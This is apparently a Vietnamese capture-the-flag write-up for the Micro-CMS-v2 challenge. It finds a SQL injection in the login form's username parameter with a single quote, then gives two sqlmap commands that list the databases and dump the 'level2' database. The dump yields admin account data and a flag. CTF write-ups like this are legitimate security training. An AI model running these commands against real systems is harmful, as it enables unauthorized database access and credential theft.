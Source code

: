 # SQL Injection

## Phát hiện SQL injection

    Sử dụng ' thây server trả về  hình ảnh dưới

![](../img/f1-0.png)

    Dựa vào đó thấy tham số  ảnh hưởng trực tiếp đến câu lệnh truy vấn là username.

## Sử dụng SQLMAP

```
python sqlmap.py -u http://xxx.xxx.xxx.xxx/XXXXXXX/login --method POST --data "username=ABC&password=" -p username --dbs
```
![](../img/fulldb.png)

    Đã hiển thị hết database trong mysql. Và đây là Micro-CMS-v2 nên mình tập chung để dump data trong database level2

    Sử dụng tiếp sqlmap để dump data trong database
```
python sqlmap.py -u http://xxx.xxx.xxx.xxx/XXXXXXX/login --method POST --data "username=ABC&password=" -p username --dbs -D level2 --dump
```

![](../img/admin.png)

![](../img/page.png)

    Dữ liêu của 2 table dump ra đầy đủ. admin thì có tài khoản
    Còn pages thì có flag 0